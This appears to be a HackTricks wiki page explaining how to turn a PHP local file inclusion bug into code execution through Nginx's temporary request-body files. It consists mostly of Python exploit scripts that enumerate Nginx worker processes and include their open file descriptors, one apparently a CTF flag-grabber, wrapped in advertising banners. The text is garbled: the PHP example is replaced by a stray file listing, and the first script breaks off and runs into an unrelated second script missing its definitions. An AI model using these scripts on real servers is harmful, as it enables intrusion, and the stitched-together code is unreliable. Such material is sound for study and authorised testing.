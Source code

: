 # LFI2RCE via Nginx temp files

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

***

## Vulnerable configuration

[**Example from https://bierbaumer.net/security/php-lfi-with-nginx-assistance/**](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

* PHP code:

\`\`\`\`h\`

/dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon\_inode:\[eventfd] lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:\[27587] lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:\[27589] lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:\[44926] lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:\[44927] lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted) ... \`\`\` Note: One cannot directly include \`/proc/34/fd/15\` in this example as PHP's \`include\` function would resolve the path to \`/var/lib/nginx/body/0000001368 (deleted)\` which doesn't exist in in the filesystem. This minor restriction can luckily be bypassed by some indirection like: \`/proc/self/fd/34/../../../34/fd/15\` which will finally execute the content of the deleted \`/var/lib/nginx/body/0000001368\` file. ## Full Exploit \`\`\`python #!/usr/bin/env python3 import sys, threading, requests # exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance # see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details URL = f'http://{sys.argv\[1]}:{sys.argv\[2]}/' # find nginx worker processes r = requests.get(URL, params={ 'file': '/proc/cpuinfo' }) cpus = r.text.count('processor') r = requests.get(URL, params={ 'file': '/proc/sys/kernel/pid\_max' }) pid\_max = int(r.text) print(f'\[\*] cpus: {cpus}; pid\_max: {pid\_max}') nginx\_workers = \[] for pid in range(pid\_max): r = requests.get(URL, params={ 'file': f'/proc/{pid}/cmdline' }) if b'nginx: worker process' in r.content: print(f'\[\*] nginx worker found: {pid}') nginx\_workers.append(pid) if len(nginx\_workers) >= cpus: break done = False # upload a big client body to force nginx to create a /var/lib/nginx/body/$X def uploader(): print('\[+] starting uploader') while not done: requests.get(URL, data=' //'

```
    requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))
except:
    pass
```

def send\_payload\_worker(requests\_session): while True: send\_payload(requests\_session)

def send\_payload\_multiprocess(requests\_session): # Use all CPUs to send the payload as request body for Nginx for \_ in range(multiprocessing.cpu\_count()): p = multiprocessing.Process(target=send\_payload\_worker, args=(requests\_session,)) p.start()

def generate\_random\_path\_prefix(nginx\_pids): # This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/\<nginx pid 1>/cwd/proc/\<nginx pid 2>/root/proc/\<nginx pid 3>/root path = "" component\_num = random.randint(0, 10) for \_ in range(component\_num): pid = random.choice(nginx\_pids) if random.randint(0, 1) == 0: path += f"/proc/{pid}/cwd" else: path += f"/proc/{pid}/root" return path

def read\_file(requests\_session, nginx\_pid, fd, nginx\_pids): nginx\_pid\_list = list(nginx\_pids) while True: path = generate\_random\_path\_prefix(nginx\_pid\_list) path += f"/proc/{nginx\_pid}/fd/{fd}" try: d = requests\_session.get(SERVER + f"/?action=include\&file={path}").text except: continue # Flags are formatted as hxp{} if "hxp" in d: print("Found flag! ") print(d)

def read\_file\_worker(requests\_session, nginx\_pid, nginx\_pids): # Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range for fd in range(10, 45): thread = threading.Thread(target = read\_file, args = (requests\_session, nginx\_pid, fd, nginx\_pids)) thread.start()

def read\_file\_multiprocess(requests\_session, nginx\_pids): for nginx\_pid in nginx\_pids: p = multiprocessing.Process(target=read\_file\_worker, args=(requests\_session, nginx\_pid, nginx\_pids)) p.start()

if **name** == "**main**": print('\[DEBUG] Creating requests session') requests\_session = create\_requests\_session() print('\[DEBUG] Getting Nginx pids') nginx\_pids = get\_nginx\_pids(requests\_session) print(f'\[DEBUG] Nginx pids: {nginx\_pids}') print('\[DEBUG] Starting payload sending') send\_payload\_multiprocess(requests\_session) print('\[DEBUG] Starting fd readers') read\_file\_multiprocess(requests\_session, nginx\_pids)

```

## Labs

* [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz)
* [https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/)
* [https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/)

## References

* [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

<div data-gb-custom-block data-tag="embed" data-url='https://whiteintel.io'></div>

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
```
